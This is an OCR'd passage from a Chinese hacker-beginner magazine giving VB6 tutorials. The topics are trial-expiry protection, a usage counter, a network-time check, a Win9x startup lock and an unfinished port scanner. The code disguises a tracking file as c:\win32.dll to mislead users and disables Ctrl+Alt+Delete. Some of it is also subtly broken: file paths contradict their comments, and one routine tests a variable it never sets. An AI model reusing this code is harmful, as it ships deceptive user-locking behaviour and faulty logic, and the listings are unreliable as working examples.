

## 防止软件到期修改时间

不知大家注意到没有，现在很多的共享软件作者都加上了过期限制设置，当时间到期后，就禁止用户继续使用软件。但估计大部分人都知道，只要把系统日期修改到软件过期前就又可继续使用了。所以这是众多软件设计者的失误，是不是很恼火啊？别着急，下面我教大家如何把自己的软件变得更加安全。
以前我写过一篇《弥补网络时间验证的漏洞》，今天我来讲讲怎么给自己的软件加上本地时间验证以及到期后即使修改时间也不能再用的教学（这里用了最初级的技术，目的是让读者能彻底明白，并能让大家脑海里有个清晰的编程思路）。下面大家就来看看我是怎么做的吧！

- 编程软件：VB6.0
操作系统：Windows系列

首先打开VB6.0，新建一个标准的EXE窗口Form1（因为这里我讲的不是怎么做软件，所以大家学会后可把以下代码加入你自己写的软件里）。以下是给软件加上时间期限的代码：

```
Private Sub Form_Load()
    Dim t As Date
```

20 黑客X档案

# 黑客入门实例精讲

```vb
'定义 t 为日期变量
t = CDate(Date & " " & Time())
'返回当前日期+时间

If DateDiff("d", t, "2003-05-25") <= 0 Then
    MsgBox "对不起！该软件到期"
    '当日期超过或等于2003-05-25，那么就弹出过期对话框，如图1.4所示。
    Open "c:\win32.dll" For Output As #1
    Close #1
    Unload Me
    '当过期对话框出现后，就在C:\下建立一个win32.dll文件
End If
If Dir("c:\win32.dll") <> "" Then
    MsgBox "您修改时间也不好使，请下载过期补丁"
    Unload Me
    '判断c:\下是否有win32.dll文件，如果有就出现要求下载补丁的对话框
End If

Exit Sub
```


以上就是当软件过期后在C:\盘建立的一个类似系统文件的文件（迷惑大家误以为是系统文件，不能随便删除），然后程序会判断C:\下是否有这个文件，如果有这个文件，以后再启动程序就不好使了。

当然，这样在C盘下建立文件不是很安全，我们可在注册表里写入一个东西，然后判断注册表里是否有这个数据，代码如下：

```vb
SaveSetting "登陆系统", "配置信息", "密码", 1
If GetSetting("登陆系统", "配置信息", "密码") = 1 Then
    Unload Me
End If
```

以上是把“1”这个数据保存在注册表里的“登陆系统”、“配置信息”、“密码”，然后判断以上位置是否有“1”，如果有就退出。

“SaveSetting”是在Windows中保存或建立应用程序项目。

使用语法如下：

**SaveSetting appname,**
**section, key, setting**

其中的参数含义如下：

**appname:** 包含应用程序或工程的名称，对这些应用程序或工程使用设置；

**section:** 字符串表达式，包含区域名称，在该区域保存注册表项设置；

**section:** 字符串表达式，包含将要保存的注册表项设置的名称；

**setting:** 包含 key 的设置值；

GetSetting 的语法和 SaveSetting 的语法一样，不过是读取数据的命令。

以上简单的对程序过期设置进行了保护，不过大家也许会问，如果想让软件继续使用，那该怎么办呢？呵呵！这当然需要软件作者写补丁文件了。有关补丁的制作请看文章《给自己的软件加补丁功能》。

# 黑客入门实例精讲

前面给大家介绍了怎样对过期限制软件加以保护，但当软件到期后想让它继续使用该怎么办呢？我们可用做补丁的方法给软件推迟过期限制或让它永远不过期。怎么做补丁呢？这就是我这次要讲的。


现在有许多做补丁的软件，但是其原理就是覆盖。就拿过期补丁来说吧，假如我们做了一个 2003-05-25 到期的程序，到期后，这个软件就不能使用了。那我想让用户继续使用此软件到 2003-10-1 日，就得再做可执行文件去覆盖以前的程序。但读者又会问，补丁文件只能比原来的文件大而不能小，别人做的补丁为什么就那么小？这就是我下面要讲的。

当我们要延长软件使用时间，如果只给时间验证的部分打补丁，那么补丁文件就会小很多？或许读者又会问，那怎么单独给时间验证的部分打补丁呢？难道能分割EXE文件？对！我们可把时间验证的部分单独写到一个Dll文件里，要是打补丁的话，直接给那个Dll文件打补丁即可。

能做Dll文件的编程软件很多，最常用、最简单的要属VC了，不过现在学VB的朋友较多，所以我这次用VB来演示如何制作Dll文件。

下面是我利用Dll文件做的时间验证程序。

| 编程环境: VB 6.0 |
| :--- |
| 操作系统: Win9x |

打开VB6.0后，编写步骤如下：

首先建立一个ActiveX DLL工程（编写Dll文件的工程），在里面建立一个Form窗体，然后在窗体里填写如下代码：

```vb
Public Function IsTimeOver() As Boolean
'自己定义 IsTimeOver 函数
Dim t As Date
    t = CDate(Date & " " & Time())
    If DateDiff("d", t, "2003-05-25") <= 0 Then
        IsTimeOver = True
        '当时间到 2003-05-25 时，函数IsTimeOver为真
        Exit Function
    End If
End Function
```

接下来在类模块class1里填写如下代码：

```vb
Public Function IsTimeOver() As Boolean
```

# 黑客入门实例精讲

```vb
本函数用来返回是否过期
IsTimeOver = Form1.IsTimeOver()
'函数IsTimeOver和Form1.IsTimeOver()
函数挂接
End Function
```

以上就完成了Dll文件的操作，很简单吧！下面我们开始做EXE文件部分。
在VB6.0下建立标准EXE工程，代码如下：

```vb
Private Sub Form_Load()

Dim obj As Object
' 创建这么一个对象

Set obj = CreateObject("mydll.class1")
' mydll.class1是我刚才给Dll工程起的名字
' 调用这个对象的IsTimeOver

If obj.istimeover() = True Then
    MsgBox "对不起！软件到期"
    ' 跳出过期对话框（图15）

    Open "c:\win32.dll" For Output As #1
        Close #1
        Unload Me
End If

If Dir("c:\win32.dll") <> "" Then
    MsgBox "您修改时间也不好使，请下载过期补丁"
    ' 跳出对话框（图16）
    Unload Me
End If

End Sub
```

最后生成2个文件（图17）。


用VB做的Dll文件有时必须用regsvr32程序驱动一下，这个程序在C:\Windows\System下。我们可以做个bat文件来驱动。图18是驱动命令。


上面做的只是给软件进行时间验证的部分，软件主体可以在Form里写入。以后我们就把这个Dll文件放在补丁文件里制作了。
这里我用的是Winpatch制作的补丁程序，光盘里附带有。制作完再用ASPack压缩一下。呵呵！再看看文件有多大啊？


## 使用VB给子程序打造仿黑客软件

编程初学者做完软件后，是不是也想为它加上使用限制功能呢？听起来很兴奋吧！

这次我要讲的是，当自己的程序做完给别人使用时，想让使用者使用一定次数后出现提示“使用次数已到”，然后跳出密码提示框，只有输入正确密码才可以再使用，否则就不能再继续用了。

听起来用VB实现这样的程序有点难，但编程思路却很简单，接下来就给大家演示一下这个程序的实现方法。



> 编程环境：VB 6.0
> 操作系统：Win9x

首先启动VB6.0，建立一个标准EXE（由于本文不是讲怎么样去做软件，而是给软件写注册程序，所以除了窗体，再添加一个可输入密码作为得到密码登陆后的对话框 frmlogin 即可）。好了，下面是进入窗体的代码部分：

```vb
Private Sub Form_Load()
    Dim a As String
    Dim b As String
    '定义aaa和bbb两个变量为字符变量

    On Error GoTo ddd
    '如果文件出错，跳到ddd处去建立

    Open("c:\windows\system") For Input As #1
    '在c:\windows下建立system.cdf文件来存放变量
    Input #1, a
    '将数值读入变量a
    Close #1

    If a > 10 Then MsgBox "抱歉，美超的软件只能使用10次，想继续使用到 www.tisc.net.cn/bbs/ 找密码"
    '当system.cdf里的值超过10，提示用户，然后转到输入密码的框
    frmlogin.Show
    '当出现使用次数到期对话框后，就跳出密码对话框，这里的frmlogin（密码对话框）大家自己做吧！可以参考图1-9来做

    b = a + 1
    '计数器加1

    Open("c:\windows\system") For Output As #3
    Print #3, b
    '将加1后的数值写入文件
    Close #3
    Exit Sub

ddd:
    Open("c:\windows\system") For Output As #2
    Print #2, 1
    '建立文件，并写入数值1
    Close #2
End Sub
```

好了，限制用户使用程序次数的代码就是以上这些，很简单吧！但又出现了一个问题，当填入正确的密码后，每次使用都会出现提示用户使用次数超过了规定次数的对话框，然后还会出现密码登陆对话框。其实这个问题对于菜鸟来说，可以使用一个简单且实用的方法。我们可以把这个代码在密码程序里使用。



原理：当用户得到正确的密码，登陆成功后直接执行下面代码：

```vb
Open("g:\windows\system\") For Output As #4
'我相信大家都能看懂吧
Print #4, -1000000000
'这里用这种比较菜的方法（适用于菜鸟），就是当成功输入密码后在system文件里写上一个很大的负整数，即使每次使用加1的话，我看一个软件你不可能使用这么多次吧！
Close #4
```

这样，以后使用软件就不会出现那个对话框了（因为system.cdf里的数字再也不能达到10次了）。

> 大家也可把计数器的变量写到注册表里或硬盘的某个扇区，不过这些方法要求使用大量的API函数，还要联系到系统底层技术，所以不适合初学者，这就看自己的爱好了。

以上就是使用VB给程序加注册的方法，大家可把以上代码与自己做完的程序相结合，还可把自己的程序打造得更有性。

## 修补流光编写缺失


爱好网络安全的朋友都应该知道小榕写的流光吧！这里我就不介绍这款软件的用处了，主要说一下流光对时间验证编写地方的一个失误点。以前我也写过关于这个漏洞的文章，难道就让这个漏洞一直存在？今天我来教大家编写类似的程序，以修补这个漏洞！

首先说一下流光的失误点，流光的任何版本都有过期限制，当期限一到，再使用时就出现过期对话框。不过流光验证时间用的是本地时间以及与www.sina.com.cn和www.yahoo.com的网络时间来判别软件是否过期。当流光打开时，程序会向这两个网站连接并且效验网络时间，如果到期，使用时会把这个过程拦截下来（阻止流光网络效验），流光也可以继续使用。所以我要做的是当阻止跟网络时间验证时，就显示时间超时的错误对话框，导致用户照样使用不了软件。

下面是我做的简单的设置网络超时以及网络时间验证的主要程序。

| 编程环境： | VB 6.0 |
| --- | --- |
| 操作系统： | Win9x |

这里我用 VB6.0 来做此过程。首先打开 VB60，在 Form 里添加一个 Winsock 控件，之后进入代码区，如下：

```vb
Dim GetTime As Boolean '定义是否已得到时间
Dim TimeOver As Boolean '定义是否已经过期

Private Sub Form_Load()
    bGetTime = False
    bTimeOver = True

    Winsock1.Connect "xx.xx.xx.xx", 13
    '13这个端口是显示时间的端口，大家可找个开13端口的Server来Telnet上去。这里是跟有开13端口的网站进行连接
    DoEvents

    Dim starttime As Long
    '定义starttime为长整数
    starttime = GetTickCount()
    Do Until GetTickCount > starttime + 1000 Or GetTime
        '等到超时或已经得到时间
        DoEvents
    Loop

    If Not bGetTime Then
        MsgBox "获得时间超时！你不能使用该软件！", , "超时"
        Unload Me
        '当没有得到时间时（这里有可能是网络不通或外界阻止连接13端口），出现时间超时对话框，然后退出程序。
        Exit Sub
    Else
        If TimeOver Then
            MsgBox "对不起，该软件已过期", , "过期"
            '出现如图2.0所示的对话框
            Unload Me
            '这里是如果当网络时间超过2003-10-01，就出现过期对话框，然后退出程序
            Exit Sub
        End If
    End If
End Sub

Private Sub Winsock1_DataArrival(ByVal bytesTotal As Long)
    Dim strTime As String
    Winsock1.GetData strTime, vbString
    Winsock1.Close
    GetTime = True

    Dim t As Date
    t = CDate(strTime)
    'DateDiff是用来比较时间大小的，如果想了解详细用法，请阅读MSDN
    If DateDiff("d", t, "2003-10-01") < 0 Then
        TimeOver = True
    Else
        TimeOver = False
        '如果到了时间大于2003-10-01时，那么就过期，如果没到2003-10-01，就没过期
    End If
End Sub
```



以上代码是防止破解者利用阻止软件进行网络验证钻空子。大家可把上面的代码加到自己的程序里，这样就能达到保护软件的作用。



## 制作Win9X 登录验证程序

使用Win98的用户都知道使用密码登陆时的漏洞吧！当用户不想让别人乱动自己的电脑，就给爱机设置了登陆密码验证的对话框，让别人进不去。但Win98即使不输入密码直接按“取消”按钮也可进入系统，实在可恨！

这是Win98的一个登陆Bug，那么我们如何弥补这个漏洞呢？

其实很简单，既然非法用户可以按“取消”按钮进入系统，那我们可做一个进入桌面时启动的密码提示框，如果密码不正确无论如何也进不去，听起来不错，但是怎么做呢？请往下看：

首先说明一个函数：

**【函数】品**
SystemParametersInfo

**【声明】品**
SystemParametersInfo Lib "user32" Alias "SystemParametersInfoA" (ByVal uAction As Long, ByVal uParam As Long, ByRef lpvParam As Any, ByVal fuWinIni As Long) As Long

**【说明】品**
允许获取和设置数量众多的windows系统参数

```vb
Sub DisableCtrlAltDelete(bDisabled As Boolean)
    Dim X As Long
    X = SystemParametersInfo(97, bDisabled, CStr(1), 0)
End Sub
'用来屏蔽CtrlAltDelete热键的自定义函数
```

把以上代码写到模块文件里即可。

接下来开始完成主体部分。还是在VB6.0+Win9x下完成。

打开VB6.0，在Form1里修改以下属性(图21)。

| BorderStyle | 设置为0(不显示任何边框) |
| --- | --- |
| ClipControls | 设置为false |
| WindowState | 设置为2-Maximized |

然后在Form1里建立2个CommandButton按钮和3个TextBox，用来输入密码和修改密码。图22是我做的界面，请参考。





主体代码：

```vb
Option Explicit
Dim m_password As String
Dim b As String
Dim c As String
'定义3个变量

Private Sub Command1_Click()
    End
End Sub

Private Sub Command2_Click()
    If Text2.Text = Text3.Text And Text2.Text <> "" Then
        m_password = Text2.Text
        '使输入变量m_password到text2里
        SaveSetting "登陆系统", "配置信息", "密码", m_password
        '保存密码到注册表，详细请参考MSDN
        MsgBox "密码修改成功，请进入系统", , "成功"
        DisableCtrlAltDelete (False)
        '如果密码输入正确，进入系统后被屏蔽的Ctrl+Alt+Delete键会解除
        End
    Else
        MsgBox "新密码填的不对！请重新输入", , "警告"
    End If
End Sub

Private Sub Command3_Click()
    DisableCtrlAltDelete (False)
    MsgBox "密码正确！请进入系统", , "成功"
    Unload Form1
End Sub

Private Sub Form_Load()
    On Error Resume Next
    '如果程序出现错误，跳过执行下一个命令
    m_password = GetSetting("登陆系统", "配置信息", "密码")
    If m_password = "" Then
        '在注册表里读取密码变量
        m_password = "jiangchao"
        '程序初始密码为我的名字"jiangchao"
    End If
    Text2.Enabled = False
    Text3.Enabled = False
    Command2.Enabled = False
    Command3.Enabled = False
    'text2、text3、command2、command3初始状态都设置成不可用，只有输入密码的地方才可使用
    DisableCtrlAltDelete (True)
    '当程序启动后Ctrl+Alt+Delete屏蔽热键生效
End Sub

Private Sub Text1_Change()
    If Text1.Text = m_password Then
        Command3.Enabled = True
        Text2.Enabled = True
        Text3.Enabled = True
        Command2.Enabled = True
        '当密码输入正确后，不可使用的控键都可使用了
    End If
End Sub
```

以上就是全部代码，生成EXE文件后把它放到启动目录里，每次开机就可自动执行，而且也不必担心别人利用Ctrl+Alt+Del来关闭此程序，因为我们在执行后，就屏蔽这些热键了。这样不输入正确密码就进不去（对菜鸟而言）。本程序还有很多漏洞，还请多指正！

## 自己动手打造SuperScan



相信大家都很了解计算机的端口和用途吧（如果不明白，请阅读“菜鸟必读”栏目里的《常用操作系统端口列表》）！每个端口都有不同的功能，也就是不同的工作通道。对目标计算机进行端口扫描，能得到许多有用信息。进行扫描的方法有很多，不过大部分朋友喜欢用SuperScan，它专门对机器进行端口扫描，其扫描速度非常快且运行时占用的内存不大。黑客和网络管理员经常用它来快速扫描目标服务器上开了多少端口以及什么端口，然后根据各端口来分析是否存在弱点，然后进行攻击或防护。

大家总用别人做的工具是不是有点眼馋呢？那么我们就来做自己的SuperScan吧！什么？你不信？太难了？其实我们完全可以做出类似于SuperScan的软件，而且方法非常简单，代码也很简练。不信就看看我是如何用VB6.0做的一个可扫描单一IP的扫描端口程序吧！我给它命名ConanScan（嘻嘻！是根据我的网名起的哦），下面给大家演示一下ConanScan的制作过程。


编程环境：VB 6.0
操作系统：Win9x

打开VB6.0，然后按如下步骤做：

- 1. 建立4个TextBox框。分别用来填写IP（TxtIP）、起始端口（TxtPortStart）、终止端口（TxtPortEnd）、超时时间（TxtOutTime）。
- 2. 选择部件里的Winsock控件，添加到Form1窗体（图23）。



- 3. 再建立一个大的TextBox（LstResult），用来显示扫描结果。
- 4. 建立一个Label（LblCurrent），用来显示扫描的动态，给扫描器增添动态感觉。
- 5. 最后加上2个CommandButton按钮。



用来启动扫描（CmdStart）和停止扫描（CmdEnd）。主体就是这样子，你还可根据个人爱好添加别的东西。图24是我做的界面，还可以吧:)

现在，我们就开始做这个快速扫描端口软件了。代码如下：

```vb
Option Explicit
Private Declare Function GetTickCount Lib "kernel32" () As Long
' 这个API函数能获得机器开机到现在经过的时间，单位毫秒
Dim bStop As Boolean
' 用来停止扫描

Private Sub CmdStart_Click()
    CmdStart.Enabled = False
    CmdEnd.Enabled = True
    LstResult.Clear
    ' 清空上次搜索结果
    bStop = False
    ' 用户没有停止扫描
    ' 开始扫描
    ScanPort Trim(TxtIP.Text), CLng(TxtPortStart.Text), CLng(TxtPortEnd.Text), CLng(TxtOutTime.Text)
    CmdStart.Enabled = True
    'CmdStart激活
    CmdEnd.Enabled = False
    'Cmdend先被禁止
End Sub

Private Sub CmdEnd_Click()
    bStop = True
    ' 用户停止扫描
End Sub

Private Sub ScanPort(ip As String, portStart As Long, portEnd As Long, outTime As Long)
    ' 该过程用来扫描指定IP指定端口
    ' 参数解释
    'ip 对方IP
    'portstart 起始端口
    'portend 终止端口
    Dim i As Long
    ' 当前端口
    Dim starttime As Long
    ' 存时间
    For i = portStart To portEnd
        DoEvents
